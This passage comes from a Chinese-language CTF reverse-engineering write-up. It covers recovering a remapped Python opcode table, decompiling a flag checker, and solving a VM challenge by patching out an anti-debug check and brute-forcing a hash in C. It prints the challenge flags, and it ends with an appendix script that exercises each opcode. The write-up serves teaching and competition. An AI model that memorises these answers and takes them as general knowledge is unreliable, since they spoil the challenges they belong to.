Opmap building: general_opcode = 23, replace_opcode = 24
Opmap building: general_opcode = 24, replace_opcode = 26
Opmap building: general_opcode = 26, replace_opcode = 20
Opmap building: general_opcode = 62, replace_opcode = 1
Opmap building: general_opcode = 63, replace_opcode = 19
Opmap building: general_opcode = 144, replace_opcode = 114
Opmap building: general_opcode = 110, replace_opcode = 106
Opmap building: general_opcode = 107, replace_opcode = 144
Opmap building: general_opcode = 114, replace_opcode = 107
Opmap building: general_opcode = 106, replace_opcode = 110
```

拿到opcode置换表之后，有几种思路可以得到flag：

 - 修改对应的Lib/opcode.py，直接用dis反汇编模块查看
 - 二进制修改flag.py，通过python源码可以了解到pyc的结构，由于只存在一个代码段，而且指令长度相同，因此修改也很方便
 - 修改python3的反编译引擎

python3的反编译引擎有不少，这里以`uncompyle6`为例，uncompyle6中依赖xdis模块获取python各个版本的opcode，因此需要修改xdis模块，主要修改`xdis\opcodes\opcode_3x.py`。

反编译后即可获得源码：

```python
flag = input("please input the flag:")

if  len(flag) != 28:
    print("Failure")
    exit()
if  flag[ 0] != 't':
    print("Failure")
    exit()
if  flag[ 1] != 'j':
    print("Failure")
    exit()
if  flag[ 2] != '{':
    print("Failure")
    exit()
if  flag[ 3] != chr(ord('!') + 15):
    print("Failure")
    exit()
if  flag[ 4] != chr(ord('u') -  5):
    print("Failure")
    exit()
if  flag[ 5] != 'C':
    print("Failure")
    exit()
if  flag[ 6] != chr(110 + ord('\x01')):
    print("Failure")
    exit()
if  flag[ 7] != chr(ord('"') * 2):
    print("Failure")
    exit()
if  flag[ 8] != chr(404 >> ord('\x02')):
    print("Failure")
    exit()
if  flag[ 9] != chr(ord(' ') + 63):
    print("Failure")
    exit()
if  flag[10] != chr(ord('H') + 32):
    print("Failure")
    exit()
if  flag[11] != chr(ord('\x08') ** 2):
    print("Failure")
    exit()
if  flag[12] != chr(ord('s'.upper())):
    print("Failure")
    exit()
if  flag[13] != chr(ord('\x13') * 5):
    print("Failure")
    exit()
if  flag[14] != str(8):
    print("Failure")
    exit()
if  flag[15] != chr(ord('d') + 1):
    print("Failure")
    exit()
if  flag[16] != chr(ord('f') - 1):
    print("Failure")
    exit()
if  flag[17] != chr(ord('\'') * 2):
    print("Failure")
    exit()
if  flag[18] != chr(95):
    print("Failure")
    exit()
if  flag[19] != 'R'.lower():
    print("Failure")
    exit()
if  flag[20] != 'E'.upper():
    print("Failure")
    exit()
if  flag[21] != chr(ord('\x14') << 2):
    print("Failure")
    exit()
if  flag[22] != str(int('1')):
    print("Failure")
    exit()
if  flag[23] != 'a':
    print("Failure")
    exit()
if  flag[24] != 'c':
    print("Failure")
    exit()
if  flag[25] != 'e':
    print("Failure")
    exit()
if  flag[26] != 'D':
    print("Failure")
    exit()
if  flag[27] != '}':
    print("Failure")
    exit()
print('Success')
```

显而易见**tj{0pCoDe_h@S_8eeN_rEP1aceD}**（opcode_has_been_replaced）

### Reverse 500 VMP

```
题目：杀毒软件有可能会误报，本次比赛所有的可执行文件均无恶意代码，请放心使用
```

用IDA查看，首先在`main`函数中，调用了`IsDebuggerPresent`函数，判断自身是否被动态调试，如果是的话则结束进程。可以通过二进制修改x86汇编中的跳转指令来绕过这个检测。


接着是一个很关键的`sub_401080`函数，查看汇编指令可以发现这是一个很简单的虚拟机，根据操作码执行不同的操作。0x01则PUSH，0x02则CALL，指令为如下结构体：

```cpp
typedef char vm_opcode;       //操作码
typedef int  vm_operand;      //操作数
typedef struct vm_instruction //指令
{
    vm_opcode  opcode;
    vm_operand operand1;
    vm_operand operand2;
    vm_operand operand3;
} vm_instruction_t;
```

通过自己`push`和`call`来完成函数调用，首先取两个函数地址，分别用两个字符串`tj{maybe_the_ti`及`me_isn't_right}`对其进行异或操作。其中一个是hash函数，另外一个函数将51位的flag三位一组进行该hash运算，并对比结果。由于hash不可逆，因此只能爆破，好在只有三位，而且出题目的时候测试过，没有hash碰撞的情况。

写个程序暴力枚举：

```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned int stringtoid(const char *str)
{
    int             i;
    unsigned int    v;
    unsigned m[70];
    strncpy((char *)m, str, 256);
    for (i = 0; i < 256 / 4 && m[i]; i++)
        ;
    m[i++] = 0x9BE74448;
    m[i++] = 0x66F42C48;
    v = 0xF4FA8928;

    __asm {
        mov esi, 0x37A8470E
        mov edi, 0x7758B42B
        xor ecx, ecx
        _loop :
        mov ebx, 0x267B0B11
            rol v, 1
            lea eax, m
            xor ebx, v
            mov eax, [eax + ecx * 4]
            mov edx, ebx
            xor esi, eax
            xor edi, eax
            add edx, edi
            or edx, 0x2040801
            and edx, 0xBFEF7FDF
            mov eax, esi
            mul edx
            adc eax, edx
            mov edx, ebx
            adc eax, 0
            add edx, esi
            or edx, 0x804021
            and edx, 0x7DFEFBFF
            mov esi, eax
            mov eax, edi
            mul edx
            add edx, edx
            adc eax, edx
            jnc _skip
            add eax, 2
            _skip:
        inc ecx;
        mov edi, eax
            cmp ecx, i
            jnz _loop
            xor esi, edi
            mov v, esi
    }
    return v;
}

int add_with_carry(int *subscript, char *entry, int i, const char *set, int set_size, int entry_size)
{
    if (i >= entry_size)
        return -1;

    if (subscript[i] + 1 < set_size) {
        subscript[i]++;
        entry[i] = set[subscript[i]];
        return 0;
    }
    else {
        subscript[i] = 0;
        entry[i] = set[subscript[i]];
        return add_with_carry(subscript, entry, i + 1, set, set_size, entry_size);
    }
}

void hash_blasting(const char *set, int set_size, int entry_size, int *target_dict, int target_dict_size)
{
    int  *subscript;
    char *entry;
    char flag[100] = { 0 };
    subscript = (int *)malloc(sizeof(int)  * entry_size);
    entry = (char*)malloc(sizeof(char) * entry_size + 1);

    int i;
    for (i = 0; i < entry_size; i++) {
        subscript[i] = 0;
        entry[i] = set[subscript[i]];
    }
    entry[i] = '\0';

    while (1)
    {
        int id = stringtoid(entry);
        for (i = 0; i < target_dict_size; i++) {
            if (id == target_dict[i]) {
                printf("%02d - %08X - [%s]\n", i, id, entry);
                memcpy(flag + 3 * i, entry, 3);
            }
        }
        
        if (add_with_carry(subscript, entry, 0, set, set_size, entry_size) == -1)
            break;
    }

    printf("flag = %s\n", flag);

    free(entry);
    free(subscript);
}

int main(int argc, char **argv)
{
    char graph_chars[] = " !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    int  target_dict[] = { 
        0x400A7A71, 0xBE0A9967, 0xED26C8B1, 0x9BFB132F, 0x4B0C5A46, 0x4F14EAAE, 0xE6FEDCB8, 0xE3E3A0DB,
        0x5A653E54, 0x7A757C7B, 0xFD89E867, 0xD9B384DD, 0xE5EAEC06, 0x9203B544, 0x43FF82A7, 0x159226D6,
        0x2742FD2E };
    hash_blasting(graph_chars, strlen(graph_chars), 3, target_dict, sizeof(target_dict));
    system("pause");
    return 0;
}
```

得到flag：

```bash
07 - E3E3A0DB - [_w0]
01 - BE0A9967 - [th1]
15 - 159226D6 - [3t7]
09 - 7A757C7B - [_8E]
08 - 5A653E54 - [rsE]
05 - 4F14EAAE - [ys_]
04 - 4B0C5A46 - [VVa]
14 - 43FF82A7 - [t_b]
13 - 9203B544 - [_ge]
03 - 9BFB132F - [_@l]
10 - FD89E867 - [for]
02 - ED26C8B1 - [N9s]
06 - E6FEDCB8 - [G3t]
11 - D9B384DD - [e_t]
12 - E5EAEC06 - [Hey]
00 - 400A7A71 - [tj{]
16 - 2742FD2E - [eR}]
flag = tj{th1N9s_@lVVays_G3t_w0rsE_8Efore_tHey_get_b3t7eR}
请按任意键继续. . .
```

**tj{th1N9s_@lVVays_G3t_w0rsE_8Efore_tHey_get_b3t7eR}**（things_always_get_worse_before_they_get_better）

### 附录1：all.py

```python
from __future__ import division
from __future__ import with_statement
import sys

global g_a

#define POP_TOP                   1
(lambda:1)()

#define ROT_TWO                   2
a = 1
b = 2
(a, b) = (b, a)

#define ROT_THREE                 3
a = 1
(a, a, a) = (a, a, a)

#define DUP_TOP                   4
a = 1
c = b = a

#define DUP_TOP_TWO               5
a = [1, 2]
a[0] += 3;

#define NOP                       9

#define UNARY_POSITIVE           10
a = 1
a = +a

#define UNARY_NEGATIVE           11
a = 1
a = -a

#define UNARY_NOT                12
a = 1
a = not a

#define UNARY_INVERT             15
a = 1
a = ~a

#define BINARY_MATRIX_MULTIPLY   16
class MyMatrix:
    def __matmul__(self, other):
        pass
a = MyMatrix()
a = a @ a

#define INPLACE_MATRIX_MULTIPLY  17
a = MyMatrix()
a @= a

#define BINARY_POWER             19
a = 2
a = a ** 2

#define BINARY_MULTIPLY          20
a = 2
a = a * 2

#define BINARY_MODULO            22
a = 2
a = a % 2

#define BINARY_ADD               23
a = 2
a = a + 2

#define BINARY_SUBTRACT          24
a = 2
a = a - 2

#define BINARY_SUBSCR            25
a = [1]
a[0]

#define BINARY_FLOOR_DIVIDE      26
a = 2
a = a // 2

#define BINARY_TRUE_DIVIDE       27
# from __future__ import division
a = 2
a = a / 2

#define INPLACE_FLOOR_DIVIDE     28
a = 1
a //= 1

#define INPLACE_TRUE_DIVIDE      29
# from __future__ import division
a = 1
a /= 2

#define GET_AITER                50
#define GET_ANEXT                51
async def FUNC_GET_AITER(b, c):
    async for b in c:
        pass

#define BEFORE_ASYNC_WITH        52
async def FUNC_BEFORE_ASYNC_WITH(b):
    async with b:
        pass

#define INPLACE_ADD              55
a = 1
a += 1

#define INPLACE_SUBTRACT         56
a = 1
a -= 1

#define INPLACE_MULTIPLY         57
a = 1
a *= 1

#define INPLACE_MODULO           59
a = 1
a %= 1

#define STORE_SUBSCR             60
a = [1]
a[0] = 1

#define DELETE_SUBSCR            61
a = [1]
del a[0]

#define BINARY_LSHIFT            62
a = 1
a = a << 1

#define BINARY_RSHIFT            63
a = 1
a = a >> 1

#define BINARY_AND               64
a = 1
a = a & 1

#define BINARY_XOR               65
a = 1
a = a ^ 1

#define BINARY_OR                66
a = 1
a = a | 1

#define INPLACE_POWER            67
a = 1
a **= 1

#define GET_ITER                 68
for a in (1,2):
    pass

#define GET_YIELD_FROM_ITER      69
def FUNC_GET_YIELD_FROM_ITER(b):
    yield from b

#define PRINT_EXPR               70
# IGNORE: used only in interactive mode

#define LOAD_BUILD_CLASS         71
class a:
    pass

#define YIELD_FROM               72
def FUNC_YIELD_FROM(b):
    yield from b

#define GET_AWAITABLE            73
async def FUNC_GET_AWAITABLE(b):
    await b()

#define INPLACE_LSHIFT           75
a = 1
a <<= 1

#define INPLACE_RSHIFT           76
a = 1
a >>= 1

#define INPLACE_AND              77
a = 1
a &= 1

#define INPLACE_XOR              78
a = 1
a ^= 1

#define INPLACE_OR               79
a = 1
a |= 1

#define BREAK_LOOP               80
for a in (1,2):
    break

#define WITH_CLEANUP_START       81
#define WITH_CLEANUP_FINISH      82
# from __future__ import with_statement
with open("all.py") as f:
    pass

#define RETURN_VALUE             83
# IGNORE: last opcode

#define IMPORT_STAR              84
from sys import *

#define SETUP_ANNOTATIONS        85
# captain: str

#define YIELD_VALUE              86
def FUNC_YIELD_VALUE():
    a = 1
    yield 1
    a = 2

#define POP_BLOCK                87
for a in (1,2):
    break

#define END_FINALLY              88
#define POP_EXCEPT               89
try:
    a = 1
except ValueError:
    a = 2
finally:
    a = 3

#define HAVE_ARGUMENT            90
# IGNORE: This is not really an opcode

#define STORE_NAME               90
a = 1

#define DELETE_NAME              91
a = 1
del a

#define UNPACK_SEQUENCE          92
(a, b) = "ab"

#define FOR_ITER                 93
for i in (1,2):
    pass

#define UNPACK_EX                94
t = (1, 2)
(a, *b) = t

#define STORE_ATTR               95
#define DELETE_ATTR              96
class A:
    tmp = 0
a = A()
a.tmp = 0
del a.tmp

#define STORE_GLOBAL             97
#define DELETE_GLOBAL            98
# global g_a
g_a = 1
del g_a

#define LOAD_CONST              100
a = 1

#define LOAD_NAME               101
a = 1
a = a

#define BUILD_TUPLE             102
a = 1;
a = (a, a)

#define BUILD_LIST              103
a = [1,2,3]

#define BUILD_SET               104
{'a', 'b'}

#define BUILD_MAP               105
a = 'a'
b = 'b'
{a: 'a', b: 'b'}

#define LOAD_ATTR               106
[].sort()

#define COMPARE_OP              107
a = 1 == 2

#define IMPORT_NAME             108
# import sys

#define IMPORT_FROM             109
# from __future__ import division
# from __future__ import with_statement

#define JUMP_FORWARD            110
if 1 == 2:
    pass
else:
    pass

#define JUMP_IF_FALSE_OR_POP    111
def FUNC_JUMP_IF_FALSE_OR_POP():
    return 1 and True

#define JUMP_IF_TRUE_OR_POP     112
def FUNC_JUMP_IF_TRUE_OR_POP():
    return 0 or False

#define JUMP_ABSOLUTE           113
for i in (1,2):
    pass

#define POP_JUMP_IF_FALSE       114
if 1 == 2:
    pass

#define POP_JUMP_IF_TRUE        115
if not(1 == 2):
    pass

#define LOAD_GLOBAL             116
# global g_a
g_a = 1
g_a = g_a

#define CONTINUE_LOOP           119
for x in (1,2):
    try:
        continue
    except:
        pass

#define SETUP_LOOP              120
while 0 > 1:
    pass

#define SETUP_EXCEPT            121
#define SETUP_FINALLY           122
try:
        a = 1
except ValueError:
        a = 2
finally:
        a = 3
        
#define LOAD_FAST               124
def FUNC_LOAD_FAST():
    a = 1
    a = a

#define STORE_FAST              125
def FUNC_STORE_FAST():
    a = 1
    a = a

#define DELETE_FAST             126
def FUNC_DELETE_FAST():
    a = 1
    del a
        
#define STORE_ANNOTATION        127
captain: str

#define RAISE_VARARGS           130
if 1 == 0:
    raise ValueError

#define CALL_FUNCTION           131
#define MAKE_FUNCTION           132
def a():
    pass
a()

#define BUILD_SLICE             133
a = [1,2,3,4]
b = a[::-1]

#define LOAD_CLOSURE            135
#define LOAD_DEREF              136
#define STORE_DEREF             137
#define DELETE_DEREF            138
def FUNC_CLOSURE():
    a = 1
    b = a
    del a
    def g():
        return a + 1
    return g()

#define CALL_FUNCTION_KW        141
"{a}".format(a = 'test')

#define CALL_FUNCTION_EX        142
def f(a, b):
    pass
a = {"a":1,"b":2}
f(**a)

#define SETUP_WITH              143
with open("all.py") as f:
    pass

#define EXTENDED_ARG            144
while 0 > 1:
    pass

#define LIST_APPEND             145
a = [i * i for i in (1, 2)]

#define SET_ADD                 146
a = {i * i for i in (1, 2)}

#define MAP_ADD                 147
a = {1: i * i for i in (1, 2)}

#define LOAD_CLASSDEREF         148
def FUNC_LOAD_CLASSDEREF():
    x = "xlocal"
    y = "ylocal"
    class C:
        print(x)
        print(y)
        y = 1
    
#define BUILD_LIST_UNPACK       149
[*[1], *[2], *[3]]

#define BUILD_MAP_UNPACK        150
{**{"a":1}, **{"b":2}, **{"c":3}}

#define BUILD_MAP_UNPACK_WITH_CALL 151
def f(a, b, c):
    pass
f(**{"a":1}, **{"b":2}, **{"c":3})

#define BUILD_TUPLE_UNPACK      152
(*[1], *[2], 3, *[4, 5])

#define BUILD_SET_UNPACK        153
{*[1], *[2], 3, *[4, 5]}

#define SETUP_ASYNC_WITH        154
async def FUNC_SETUP_ASYNC_WITH(b):
    async with b:
        pass
        
#define FORMAT_VALUE            155
name = "George"
f"My cool string is called {name}."

#define BUILD_CONST_KEY_MAP     156
{'a': 1, 'a': 2}

#define BUILD_STRING            157
name = "George"
f"My cool string is called {name}."

#define BUILD_TUPLE_UNPACK_WITH_CALL 158
def f(a, b):
    pass
f(*[1], *[2])
```

